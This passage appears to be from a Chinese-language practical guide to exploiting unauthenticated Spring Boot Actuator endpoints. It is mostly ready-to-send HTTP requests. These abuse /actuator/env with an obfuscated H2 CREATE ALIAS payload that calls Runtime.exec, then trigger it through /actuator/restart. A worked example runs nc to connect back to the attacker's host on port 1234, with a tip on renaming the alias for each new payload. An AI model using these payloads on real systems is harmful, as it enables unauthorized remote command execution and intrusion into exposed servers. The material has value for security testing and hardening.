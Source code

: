 **str1,str2和str3这三个参数组成要执行的命令**

spring 2.x（无回显执行命令）

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('str1','str2','str3');"}
```



**步骤二：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```



##### 利用实例

首先判断在/env变量中是否存在h2.database依赖spring.datasource.hikari.connection-test-query

![image-20210830180327037](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830180327037.png)



构造Post请求/actuator/env设置依赖为需要执行的命令，这里使用的是nc反向连接自己的主机192.168.233.242的1234端口

请求数据包如下:

```
POST /actuator/env HTTP/1.1
Host: 192.168.233.242:9096
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T6 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T6('nc','192.168.233.242','1234');"}}
```

**注:T6这个别名参数，每个参数只能使用一次，每个payload用完后要修改这个别名参数，否则不能执行**

![image-20210830180618708](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830180618708.png)
